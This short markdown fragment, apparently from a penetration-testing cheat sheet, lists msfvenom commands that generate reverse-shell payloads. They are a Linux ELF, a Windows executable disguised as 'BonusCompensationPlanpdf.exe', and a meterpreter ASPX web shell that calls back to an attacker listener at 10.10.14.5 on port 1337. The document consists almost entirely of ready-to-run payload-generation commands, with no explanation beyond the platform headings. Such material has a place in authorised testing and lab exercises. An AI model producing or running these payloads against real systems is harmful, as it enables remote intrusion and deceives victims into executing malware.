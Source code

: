 ```bash
msfvenom -l payloads
```
#### Linux
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$ip LPORT=443 -f elf > createbackup.elf
```
#### Windows
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```